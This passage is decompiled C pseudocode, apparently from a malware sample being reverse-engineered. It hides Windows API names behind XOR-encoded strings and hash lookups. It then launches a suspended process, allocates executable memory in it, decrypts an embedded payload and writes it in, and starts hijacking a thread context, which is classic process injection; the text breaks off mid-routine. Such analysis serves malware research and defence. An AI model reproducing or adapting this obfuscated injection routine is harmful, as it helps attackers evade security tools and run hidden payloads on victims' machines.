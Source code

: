 ```
  v51 = 0xBE;
  xor_DEADBEEF((__int64)&v48, 0xFuLL, (__int64)CreateProcessA);// CreateProcess
  v46 = hash(CreateProcessA);
  v45 = parser_returnAddrAPI(v52, v46);
  v41 = 0xAED2CCAB9BCCC488uLL;
  v42 = 0x8CD1C1B2;
  v43 = 0xD59B;
  v44 = 0xBE;
  xor_DEADBEEF((__int64)&v41, 0xFuLL, (__int64)VirtualAlloc);// VirtualAlloc
  v39 = hash(VirtualAlloc);
  v38 = parser_returnAddrAPI(v52, v39);
  v35[0] = 0x80CCFDBB9BD7DF89uLL;
  v35[1] = 0x80D3C8939CCDC8BDuLL;
  v36 = -11092;
  v37 = -66;
  xor_DEADBEEF((__int64)v35, 0x13uLL, (__int64)WriteProcessMemory);// WriteProcessMemory
  v33 = hash(WriteProcessMemory);
  v32 = parser_returnAddrAPI(v52, v33);
  v29 = 0x8ACCC58A81DBDD91uLL;
  v30 = 0xC9BF;
  v31 = 0xBE;
  xor_DEADBEEF((__int64)&v29, 0xBuLL, (__int64)OpenThread);// OpenThread
  v27 = hash(OpenThread);
  v26 = parser_returnAddrAPI(v52, v27);
  v24[0] = 0x8EDBDFB6BBCAC899uLL;
  v24[1] = 0x9BC6C8AA81D1EEBAuLL;
  v25 = -34;
  xor_DEADBEEF((__int64)v24, 0x11uLL, (__int64)GetThreadContentA);// GetThreadContentA
  v22 = hash(GetThreadContentA);
  v21 = parser_returnAddrAPI(v52, v22);
  v19[0] = 0x8EDBDFB6BBCAC88DuLL;
  v19[1] = 0x9BC6C8AA81D1EEBAuLL;
  v20 = -34;
  xor_DEADBEEF((__int64)v19, 0x11uLL, (__int64)SetThreadContentA);// SetThreadContentA
  v17 = hash(SetThreadContentA);
  v16 = parser_returnAddrAPI(v52, v17);
  v13 = 0x87EAC8B39ACDC88CuLL;
  v14 = 0x8BDFC8AC;
  v15 = 0xDE;
  xor_DEADBEEF((__int64)&v13, 0xDuLL, (__int64)ResumeThread);// ResumeThread
  v11 = hash(ResumeThread);
  v10 = parser_returnAddrAPI(v52, v11);
  if ( ::CreateProcessA(0LL, CommandLine, 0LL, 0LL, 1, 4u, 0LL, 0LL, &StartupInfo, &ProcessInformation) )
  {
    lpBaseAddress = VirtualAllocEx(ProcessInformation.hProcess, 0LL, (unsigned int)Size, 0x3000u, 0x40u);
    lpBuffer = malloc((unsigned int)Size);
    if ( lpBuffer )
    {
      memcpy((void *)lpBuffer, byte_140030FB0, (unsigned int)Size);
      v7 = 0xEFEAFD99BBFFE59DuLL;
      xor_DEADBEEF((__int64)&v7, 8uLL, (__int64)v6);
      xor((__int64)lpBuffer, Size, v6);
      ::WriteProcessMemory(ProcessInformation.hProcess, lpBaseAddress, lpBuffer, (unsigned int)Size, 0LL);
      free((void *)lpBuffer);
    }
    dwProcessId = ProcessInformation.dwProcessId;
    dwThreadId = sub_140001910(ProcessInformation.dwProcessId);
    hThread = ::OpenThread(0x1FFFFFu, 0, dwThreadId);
    memset(&Context, 0, sizeof(Context));
    Context.ContextFlags = 1048587;
```